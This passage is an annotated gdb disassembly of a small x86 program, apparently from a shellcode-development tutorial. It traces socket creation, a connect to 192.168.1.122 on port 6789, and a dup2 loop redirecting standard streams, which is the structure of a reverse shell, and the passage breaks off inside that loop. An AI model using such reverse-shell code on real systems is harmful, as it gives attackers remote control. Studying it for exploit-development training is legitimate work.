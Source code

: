 ```nasm
   ; 0xbffff010:	0x00000002	0x00000001	0x00000000
   ;
   ; parameters:
   ; 0x00000002 = AF_INET
   ; 0x00000001 = SOCK_STREAM
   ; 0x00000000 = IPPROTO_IP
   ; ---------------------------------------------------------------------------------

   ; connect -------------------------------------------------------------------------
   0x004006d3 <+70>:	add    esp,0x10
   0x004006d6 <+73>:	mov    DWORD PTR [ebp-0x20],eax
   0x004006d9 <+76>:	mov    WORD PTR [ebp-0x1c],0x2
   0x004006df <+82>:	sub    esp,0xc
   0x004006e2 <+85>:	push   DWORD PTR [ebp-0x28]
   0x004006e5 <+88>:	call   0x400510 <inet_addr@plt>
   0x004006ea <+93>:	add    esp,0x10
   0x004006ed <+96>:	mov    DWORD PTR [ebp-0x18],eax
   0x004006f0 <+99>:	mov    eax,DWORD PTR [ebp-0x24]
   0x004006f3 <+102>:	movzx  eax,ax
   0x004006f6 <+105>:	sub    esp,0xc
   0x004006f9 <+108>:	push   eax
   0x004006fa <+109>:	call   0x4004d0 <htons@plt>
   0x004006ff <+114>:	add    esp,0x10
   0x00400702 <+117>:	mov    WORD PTR [ebp-0x1a],ax
   0x00400706 <+121>:	sub    esp,0x4
   0x00400709 <+124>:	push   0x10
   0x0040070b <+126>:	lea    eax,[ebp-0x1c]
   0x0040070e <+129>:	push   eax
   0x0040070f <+130>:	push   DWORD PTR [ebp-0x20]
   0x00400712 <+133>:	call   0x400520 <connect@plt>
   ; gdb$ x/3w $esp
   ; 0xbffff010:	0x00000003	0xbffff03c	0x00000010
   ;
   ; parameters:
   ; 0x00000003 = sockfd
   ; 0xbffff03c = address of sockaddr struct
   ;
   ; gdb$ x/8c 0xbffff03c
   ; 0xbffff03c:	0x2	0x0	0x1a	0x85	0xc0	0xa8	0x1	0x7a
   ;
   ; parameters:
   ; 0x2	0x0 = AF_INET
   ; 0x1a	0x85 = Port number (6789)
   ; 0xc0	0xa8	0x1	0x7a = IPv4 address (192.168.1.122)

   gdb$ x/13b $ebp-0x18
0xbffff030:	0xc0	0xa8	0x01	0x7a	0xf4	0xf0	0xff	0xbf
0xbffff038:	0xfc	0xf0	0xff	0xbf	0x00
   ; ---------------------------------------------------------------------------------

   ; dup2 ----------------------------------------------------------------------------
   0x00400717 <+138>:	add    esp,0x10
   0x0040071a <+141>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x00400721 <+148>:	jmp    0x400738 <main+171>
   0x00400723 <+150>:	sub    esp,0x8
   0x00400726 <+153>:	push   DWORD PTR [ebp-0x2c]
   0x00400729 <+156>:	push   DWORD PTR [ebp-0x20]
   0x0040072c <+159>:	call   0x4004c0 <dup2@plt>
   ; gdb$ x/2w $esp
   ; 0xbffff010:	0x00000003	0x00000000
   ; gdb$ x/2w $esp
   ; 0xbffff010:	0x00000003	0x00000001
   ; gdb$ x/2w $esp
```